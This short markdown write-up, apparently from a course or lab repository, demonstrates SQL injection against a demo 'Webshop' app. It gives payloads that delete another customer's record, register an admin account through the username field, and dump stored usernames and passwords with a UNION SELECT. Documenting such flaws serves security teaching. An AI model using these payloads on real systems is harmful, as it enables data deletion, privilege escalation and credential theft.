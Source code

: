 ## SQLI in Webshop

### admin user space

enter following text for the delete action parameter id
    
    1 or shopuser_id = 2

![deleteCustomer](sqli_deleteCustomer.PNG)

### anonym user space
create an admin user from register user endpoint:

following text into username textbox:

    admin3','pw',3 ) --

![createAdminUser](sqli_createuser2.PNG)
![createAdminUser](sqli_createuser.PNG)

get all info of db

    s' UNION ALL SELECT 1, s.username, s.userpassword, 0,0 FROM shopuser s --

![fetchInfo](fetch_info.PNG)
![fetchInfo](fetch_info2.PNG)

